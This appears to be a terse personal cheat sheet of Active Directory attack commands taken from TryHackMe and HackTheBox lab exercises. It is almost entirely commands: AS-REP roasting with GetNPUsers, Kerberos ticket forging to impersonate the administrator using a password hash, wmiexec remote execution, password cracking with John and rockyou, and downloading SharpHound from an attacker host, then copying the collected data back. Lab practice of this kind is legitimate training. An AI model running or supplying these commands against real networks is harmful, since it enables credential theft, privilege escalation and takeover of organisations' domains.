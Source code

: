 
```

xfreedp /u:username /p:password /v:~~~.thm /dynamic-resolution

```
# GetNPUsers.py

```
python3 GetNPUsers.py  remo.htb/ -dc-ip 192.168.1.8 -request -usersfile users.txt  
```
# getST.py 

```
└─$ python3 /opt/Tools/impacket/examples/getST.py -spn 'cifs/haystack.thm.corp' -impersonate 'administrator' -altservice 'cifs' -hashes :3A9BB08C656640AC3DBF4F8038755264 'thm.corp/darla_winters'

```

# wmiexec

```
impacket-wmiexec -k 'thm.corp/Administrator'@haystack.thm.corp -no-pass

```
# JOHN


```

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```


### Bloodhound

```bash
1-

cd /path/to/SharpHound/


2-

 - `python3 -m http.server 8000`

3-

- `Invoke-WebRequest -Uri http://<Kali-IP>:8000/SharpHound.exe -OutFile C:\Users\<username>\Documents\SharpHound.exe`



4-


SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

----------------------------------------------------------------

### copy target x host
- scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .

```